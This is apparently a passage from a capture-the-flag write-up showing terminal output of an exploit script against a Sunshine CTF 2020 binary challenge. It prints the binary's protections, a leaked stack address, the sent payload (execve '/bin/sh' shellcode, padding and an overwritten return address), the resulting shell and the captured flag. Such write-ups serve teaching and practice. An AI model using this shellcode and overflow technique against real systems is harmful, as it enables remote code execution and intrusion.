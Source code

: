 ```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_03.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_03'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30003: Done
b'Just in time.\n'
b"I'll make it: 0x7fff288b7cb0\n"
Sending:  b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb0|\x8b(\xff\x7f\x00\x00'
[*] Switching to interactive mode
$ cat flag.txt
sun{a-little-piece-of-heaven-26c8795afe7b3c49}
```
